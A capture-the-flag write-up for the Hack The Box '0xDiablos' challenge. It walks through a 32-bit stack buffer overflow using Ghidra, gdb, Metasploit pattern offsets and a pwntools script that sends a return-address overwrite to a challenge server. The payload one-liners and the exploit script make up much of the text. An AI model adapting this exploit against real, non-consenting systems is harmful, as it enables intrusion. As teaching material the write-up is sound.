

# Enumeration

Download file 'You know 0xDiablos.zip' extract file with 7z:

```shell
7z x You\ know\ 0xDiablos.zip                                                                                                       main 

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,16 CPUs x64)

Scanning the drive for archives:
1 file, 3058 bytes (3 KiB)

Extracting archive: You know 0xDiablos.zip
--
Path = You know 0xDiablos.zip
Type = zip
Physical Size = 3058

    
Enter password (will not be echoed):hackthebox
Everything is Ok

Size:       15656
Compressed: 3058
```

Take a look on vuln file extracted:
```shell
file vuln                                                                                                                           main 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
```

To complete this practice it is necessary to understand buffer overflow. Read the following content, I did some practices with basic c program:

[reto](scripts/follow.md)

To complete is recomended:  ghidra, gdb, python pwn, gdb-peda

Open vuln file with ghidra, check functions and we find flag function with fgets, fgets like others can be overfloaded since var has been defined as char local_50 [64].

```code
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
Lets create pattern with 200 chars:

```shell
/opt/metasploit/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Now try buferoverfload to vuln with this string with gdb:
```shell
gdb ./vuln 
GNU gdb (GDB) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
(gdb) run
Starting program: /home/darthv/git/badorius/vulnhub/0xDiablos/enumeration/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x33674132 in ?? ()
(gdb) 

```

Search offset:
```shell
/opt/metasploit/tools/exploit/pattern_offset.rb -q 33674132 -l 200
[*] Exact match at offset 188
```

Search flag address:
```shell
(gdb) disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:	push   %ebp
   0x080491e3 <+1>:	mov    %esp,%ebp
   0x080491e5 <+3>:	push   %ebx
   0x080491e6 <+4>:	sub    $0x54,%esp
   0x080491e9 <+7>:	call   0x8049120 <__x86.get_pc_thunk.bx>
   0x080491ee <+12>:	add    $0x2e12,%ebx
   0x080491f4 <+18>:	sub    $0x8,%esp
   0x080491f7 <+21>:	lea    -0x1ff8(%ebx),%eax
   0x080491fd <+27>:	push   %eax
   0x080491fe <+28>:	lea    -0x1ff6(%ebx),%eax
   0x08049204 <+34>:	push   %eax
   0x08049205 <+35>:	call   0x80490b0 <fopen@plt>
   0x0804920a <+40>:	add    $0x10,%esp
   0x0804920d <+43>:	mov    %eax,-0xc(%ebp)
   0x08049210 <+46>:	cmpl   $0x0,-0xc(%ebp)
   0x08049214 <+50>:	jne    0x8049232 <flag+80>
   0x08049216 <+52>:	sub    $0xc,%esp
   0x08049219 <+55>:	lea    -0x1fec(%ebx),%eax
   0x0804921f <+61>:	push   %eax
   0x08049220 <+62>:	call   0x8049070 <puts@plt>
   0x08049225 <+67>:	add    $0x10,%esp
   0x08049228 <+70>:	sub    $0xc,%esp
   0x0804922b <+73>:	push   $0x0
   0x0804922d <+75>:	call   0x8049080 <exit@plt>
   0x08049232 <+80>:	sub    $0x4,%esp
   0x08049235 <+83>:	push   -0xc(%ebp)
   0x08049238 <+86>:	push   $0x40
   0x0804923a <+88>:	lea    -0x4c(%ebp),%eax
   0x0804923d <+91>:	push   %eax
   0x0804923e <+92>:	call   0x8049050 <fgets@plt>
   0x08049243 <+97>:	add    $0x10,%esp
   0x08049246 <+100>:	cmpl   $0xdeadbeef,0x8(%ebp)
   0x0804924d <+107>:	jne    0x8049269 <flag+135>
   0x0804924f <+109>:	cmpl   $0xc0ded00d,0xc(%ebp)
   0x08049256 <+116>:	jne    0x804926c <flag+138>
   0x08049258 <+118>:	sub    $0xc,%esp
   0x0804925b <+121>:	lea    -0x4c(%ebp),%eax
   0x0804925e <+124>:	push   %eax
   0x0804925f <+125>:	call   0x8049030 <printf@plt>
   0x08049264 <+130>:	add    $0x10,%esp
   0x08049267 <+133>:	jmp    0x804926d <flag+139>
   0x08049269 <+135>:	nop
   0x0804926a <+136>:	jmp    0x804926d <flag+139>
   0x0804926c <+138>:	nop
   0x0804926d <+139>:	mov    -0x4(%ebp),%ebx
   0x08049270 <+142>:	leave  
   0x08049271 <+143>:	ret    
End of assembler dump.
(gdb) 
```

EBP from flag function is: 0x080491e2 = 08 04 91 e2 = \xe2\x91\x04\x08
Now let's generate A with offset number of chars needed concatenate with flag address:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"' | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAâ
Hurry up and try in on server side.
```

Now try to send to server with nc, but seem doesn't works:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"'|nc 46.101.53.80 31815
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
```

It's time to play with python, after some research I found python [pwntools](http://docs.pwntools.com/en/latest/). Let's try to run our first python pwn script.
In order to work on server side, we need offset, flag ebp addres, and two parameters  from fu nfunction flag, on ghidra we can get the adresses of both 0xdeadbeef and 0xc0ded00d:


YES! It's fun python time: 
 
```python
from pwn import *

offset = b"A" * 188
fourbytes = b"AAAA"
flag_ebp = p32(0x080491e2, endian="little")
parm_one = p32(0xdeadbeef, endian="little")
parm_two = p32(0xc0ded00d, endian="little")
serverip = "178.62.13.127"
port = 30495

exploit = offset + flag_ebp + fourbytes + parm_one + parm_two

server = remote(serverip, port)
#server = elf.process()
server.sendlineafter(":", exploit)
server.interactive()
```

```shell
python pwn_exploit.py                                                                                             main 
[+] Opening connection to 178.62.13.127 on port 30495: Done
/home/darthv/git/badorius/vulnhub/0xDiablos/FootHold/venv/lib/python3.10/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xde\xc0\xde
HTB{XXXXXXXXXXXXXXXXXXXXXXX}$       [*] Got EOF while reading in interactive
$  
```

Voilà!!! 
